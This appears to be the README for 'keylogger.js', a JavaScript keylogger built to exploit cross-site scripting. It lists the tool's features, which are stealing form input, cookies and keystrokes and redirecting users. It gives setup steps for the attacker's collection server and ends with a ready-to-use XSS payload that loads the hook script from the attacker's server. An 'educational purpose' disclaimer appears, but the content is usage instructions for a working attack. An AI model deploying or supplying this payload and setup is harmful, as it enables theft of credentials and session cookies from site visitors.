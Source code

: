 # keylogger.js
A JS keylogger to exploit XSS

> This tool is only for educational purpose, do not use it against real environment



## Functionnalities

- Exfiltrate input field data
- Exfiltrate cookies
- Keylogging
- Display alert box
- Redirect user



## Install

You may need Apache + Mysq + PHP (+ php-curl)

```
# apt-get install apache2 mysql-server php php-mysql php-curl
```



Pull the keylogger source code:

```
git clone https://github.com/Sharpforce/keylogger.js.git
mv /var/www/html/keylogger/* ./
```



### Init the database

```
# mysql -u root
```

Creating a new user with specific rights:

```
MariaDB [(none)]> grant all on *.* to keylogger@localhost identified by 'keylogger';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> quit
Bye
```

Creating the database (will result in an empty page):

Visit the page http://ip/reset_database.php



### Exploit JS

The file keylogger_wip.js is a hook. You need to replace the ip address in the first line with the keylogger.js server ip address:

```javascript
var address = "your server ip";
```



Insert the hook in your XSS payload:

```
?vulnerable_param=<script src="http://your_server_ip/keylogger_wip.js"/>
```



Then, the keylogger server should list hooked browsers:

![image-20200214110103913](img/image-20200214110103913.png)















